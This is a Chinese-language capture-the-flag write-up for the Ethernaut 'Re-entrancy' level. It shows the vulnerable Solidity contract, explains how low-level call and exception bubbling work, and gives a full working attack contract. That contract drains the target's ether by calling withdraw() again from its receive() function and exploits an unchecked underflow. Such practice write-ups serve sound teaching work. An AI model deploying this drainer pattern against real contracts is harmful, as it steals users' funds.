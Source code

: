 ```yaml
---
title: Ethernaut - Re-entrancy
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-22
---
```


这次看标题应该就是重入攻击了。

目标是偷走合约的所有钱。

提示是：

- 不可信合约可以在你最不期望的地方执行代码；
- 异常冒泡。

<!--more-->

先自己猜一猜怎么做。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12; // 0.6说明是一个以前合约的通病，现在已经被解决了

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256; // SafeMath，不会溢出。

    mapping(address => uint256) public balances; // 每个账户有钱

	// donate可以给别的地址转账
    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

	// 查某个地址的钱
    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }
	
	// 退款
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) { // 如果发请求人账户里有足够的钱
            (bool result,) = msg.sender.call{value: _amount}(""); // 就把钱发回去
            
            // 这里有点奇怪？
            // 不管成不成功，都会扣钱
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount; // 还是会下溢！！！因为没有显示调用SafeMath
        }
    }

    receive() external payable {}
}
```

之前我们知道，事务是原子性的，每一个事务要么全部发生，要么全部不发生。

但是，这里退款是用的是call，call是不是会让合约变成异步的？

不对，因为如果是异步的，bool result 就没有意义。



# call

以下是一大段废话：

> 首先，一定是**同步执行**。
>
> call执行过程中，可能出现失败。比如目标合约代码抛出异常或revert，这时候会返回false，但不会触发revert。
>
> 这里的执行call就很危险，因为他执行的代码是其他合约的代码，是不可信的代码。
>
> 执行的过程，报错了，则会让返回值变成false。然鹅，即使返回false，也还是会扣掉账户里的钱，而我也不会收到钱。
>
> 我没收到钱，我账户里的钱变少了.
>
> 我希望的是，我收到了钱，但是balance里没减少。所以应该call其实执行成功了，但是调用他的合约却被迫发生了revert。
>
> 执行call有没有可能直接失败，不返回结果，就回退？x
>
> 有没有可能call调用的函数没有回滚，也返回false？
>
> https://professional-solidity.readthedocs.io/zh-cn/latest/source/06.error.html
>
> 如果异常在子调用发生，那么异常会自动冒泡到顶层（例如：异常会重新抛出），除非他们在 `try/catch` 语句中捕获了错误。 但是如果是在 `send` 和 低级 `call`, `delegatecall` 和 `staticcall` 的调用里发生异常时， 他们会返回 `false` （第一个返回值） 而不是冒泡异常。
>
> 警告注意：根据 EVM 的设计，如果被调用的地址不存在，低级别函数 `call`, `delegatecall` 和 `staticcall` 第一个返回值同样是 `true`。 如果需要，请在调用之前检查账号的存在性。
>
> 函数 assert 和 require 可用于检查条件并在条件不满足时抛出异常。



# 题解

因为每次withdraw，Reentrance执行转账，无论成功与否，都会在balance里扣除钱。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface Reentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract Attack {
    Reentrance public target;

    constructor(address _target) public {
        target = Reentrance(_target);
    }

    // Fallback function, will be called when the contract receives ether
    receive() external payable {
        uint256 balance = address(target).balance;
        if (balance > 0) {
            target.withdraw(balance);  // 重入调用
        }
    }

    // 发起攻击的函数
    function attack() external payable {
        require(msg.value > 0, "Send some ether to attack");
        target.donate{value: msg.value}(address(this));  // 向目标合约捐款
        target.withdraw(msg.value);  // 开始提款
    }

    // 用于撤回攻击所得的以太币
    function withdraw() external {
        msg.sender.transfer(address(this).balance);
    }
}
```



卡了很久……但是我好像想复杂了。

重入攻击通过receive再次调用withdraw很早就想到了，我明白中间有一个时刻，合约拿到了所有的钱，但是我以为最终会被：

```solidity
balances[msg.sender] -= _amount; 
```

报错发生回退，最终导致所有调用都不成功。

但是！！！！！SafeMath必须要显示调用 .add .sub，才是用了SafeMath！！！

这里其实还发生了下溢！！！！！！！

看了一下确实！！！！

![image-20241223004815790](./11-Re-entrancy/image-20241223004815790.png)





![image-20241222230240638](./11-Re-entrancy/image-20241222230240638.png)
